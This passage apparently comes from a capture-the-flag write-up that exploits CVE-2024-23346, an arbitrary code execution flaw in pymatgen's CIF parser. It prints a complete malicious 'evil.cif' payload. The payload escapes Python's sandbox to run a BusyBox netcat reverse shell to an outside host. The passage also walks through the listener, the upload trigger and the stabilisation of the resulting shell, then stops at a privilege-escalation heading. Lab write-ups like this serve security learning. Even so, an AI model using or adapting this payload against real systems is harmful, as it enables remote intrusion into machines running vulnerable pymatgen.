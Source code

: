 To learn more about the CVE and access PoC details, visit the following links

[CVE-2024-23346: Arbitrary Code Execution in Pymatgen via Insecure Deserialization](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/)

[Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation_string](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

#### Proof of Concept

To achieve RCE via ACE, we need to craft a malicious CIF file payload.

```yml
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.82 1337 -e /bin/bash");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
{: file="evil.cif" }

### Initial Access

> I tried several common reverse shell payloads, but none were successful. However, piping commands with nc worked as expected, for example: `which nc | nc $IP $PORT`. After experimenting with various payloads from the [Reverse Shell Generator](https://www.revshells.com/), I finally succeeded using the `BusyBox nc -e` payload.
{: .prompt-info }

#### $hell as app

Once the CIF payload file is created, set up a netcat listener `nc -lvnp 1337` and upload the `evil.cif` file. To trigger the RCE, simply click on `View` and you should receive a reverse shell as the `app` user.

## Priviledge Escalation

> Get a Stable Shell\
> `python3 -c 'import pty; pty.spawn("/bin/bash")'`\
> Press `CTRL+Z`\
> `stty raw -echo; fg; reset`\
> Press Enter two times\
> `export TERM=xterm`
{: .prompt-tip}
